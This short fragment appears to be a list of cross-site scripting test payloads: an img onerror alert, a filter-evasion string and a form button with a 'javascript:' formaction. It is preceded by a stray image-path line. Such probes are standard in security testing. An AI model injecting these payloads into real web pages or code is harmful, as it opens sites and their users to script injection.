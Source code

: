 # -b-
1:
<img src=x onerror=alert(1)>
2:
<img src=<'';!--"<XSS>=&{()}>
<'';!--"<<XSS>=&{()}
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>
